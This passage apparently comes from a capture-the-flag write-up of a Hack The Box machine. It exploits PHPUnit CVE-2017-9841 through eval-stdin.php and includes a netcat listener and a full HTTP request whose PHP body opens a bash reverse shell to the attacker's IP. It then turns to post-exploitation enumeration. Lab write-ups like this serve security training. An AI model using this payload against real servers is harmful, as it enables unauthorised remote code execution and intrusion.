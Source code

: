 One of these frameworks, PHPUnit, is vulnerable to a Remote Code Execution exploit, **CVE-2017-9841**, which has a convenient [POC](https://github.com/vulhub/vulhub/tree/master/phpunit/CVE-2017-9841).

```bash
name: phpunit/phpunit
version: "5.6.2"
version_normalized: "5.6.2.0"
```

## exploitation

To summarize, this CVE can be exploited by sending a malicious request to [http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php](http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php), and the server will execute any PHP code in the body of the request.

For this, I’m using Burpsuite however, curl should be sufficient as well.

Start Netcat listener,

```bash
nc -nvlp 9000
Listening on 0.0.0.0 9000
```

And send reverse shell code.

```bash
GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
Host: store.djewelry.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?=exec("/bin/bash -c 'bash -i >& /dev/tcp/{YOUR IP}/9000 0>&1'")?>
```

## post-exploitation

While there are a bunch of great [scripts](https://github.com/rebootuser/LinEnum) to automate this process, it can also be great to use the programs that are already installed to check for directories, cron jobs, accounts, software versions, processes, etc.
There are a number of cron jobs on the machine, however the current user doesn't have access to any of the directories they're associated with. But, looking even further, there is a backup folder (/var/backups) on the machine and while it is owned by root, there is an interesting looking file owned by www-data that can be copied to further analyze.

```bash
www-data@production:/var/backups$ ls -la
ls -la
total 36
drwxr-xr-x  2 root     root      4096 Feb  8 19:59 .
drwxr-xr-x 13 root     root      4096 Feb  8 19:59 ..
-r-x--x--x  1 www-data www-data 27296 May 14  2021 info
```
